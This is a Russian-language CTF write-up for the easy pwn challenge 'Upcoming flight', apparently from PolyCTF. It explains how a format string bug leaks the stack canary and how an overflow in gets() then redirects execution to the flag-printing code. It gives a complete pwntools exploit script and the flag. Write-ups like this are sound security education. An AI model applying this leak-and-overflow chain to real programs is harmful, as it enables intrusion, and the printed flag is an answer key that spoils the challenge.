 # Предстоящий полет | easy | pwn

## Информация
> Наш герой - это обычный парень, с обычного города N. Он работает на обычной работе и проживает обычную жизнь и, в целом, не жалуется. Но однажды — кто знает, откуда берутся подобные мысли? — его посетила идея, странная, абсурдная и даже несколько пугающая. "А что, если стать хакером?". Зачем? Почему? Разве подобные вопросы имеют значение? Возможно, это было бегство, вызов, мятеж, — быть может, даже нечто демоническое. Сказано - сделано, парень днями и ночами сидел за книгами и различными видео на всем известной площадке. Цель его была проста и дерзка: улететь в отпуск, не потратив ни копейки. Ни малейшего намёка на законность, ни малейшего страха перед последствиями. Казалось, всё его существо слилось в этой безумной идее. Прошел год, парень поднаторел и решил, что пора. Так он и оказался в аэропорту и начал думать, что же ему делать дальше...


## Выдать участинкам
файл [upcoming_flight](public/upcoming_flight)

## Описание
Для решения надо увдиеть уязвимость форматной строки и переполнения буфера.

## Решение
Открываем бинарь, изучаем поведение и все функции. Находим место где выводится флаг.

![alt text](solve/image.png)

**(Функция arrive)**

Изначально **has_ticket = false** Единственное место, где значение это переменной может измениться - это функция **print_ticket()**

![alt text](solve/image-1.png)

Однако в это условие попасть невозможно, значит нужно искать обходные пути

В этой же функции можно найти вызов gets, в нем не контролируется количество введенных символов, а значит получаем переполнение буфера (можем переписать адрес возврата и прыгнуть на **system(“cat flag”)**). 

Проверяем бинарь с помощью утилиты pwn checksec и видим, что канарейка включена, значит ее нужно предварительно ликнуть.

Чуть выше функции gets есть printf(s), но мы контролируем s, поэтому получаем уязвимость форматный строки (можем вывести переменную со стека).

![alt text](solve/image-2.png)

(Уязвимость форматной строки)

![alt text](solve/image-3.png)

(Ликнутая канарейка)

Далее находим нужный отступ и выводим канарейку, затем переполняем буфер и заменяем адрес возврата на нужный нам.

![alt text](solve/image-4.png)

(адрес, с которого начинается вывод флага)

Полное решение:

```python
from pwn import *

s = process("./upcoming_flight")

s.readuntil(b"> ")
s.sendline(b"2")
s.readuntil(b": ")
s.sendline(b"%15$p")
s.readuntil(b": ")

canary = s.readline().strip().decode()

print(f"Canary leak -> {canary}")

s.readuntil(b": ")
s.sendline(b"A" * (40) + p64(int(canary, 16)) + b"A" * 8 + p64(0x401359))

s.interactive()
```
## Флаг
`PolyCTF{W1_w13h_u_A_n1c3_fL1gHt}`
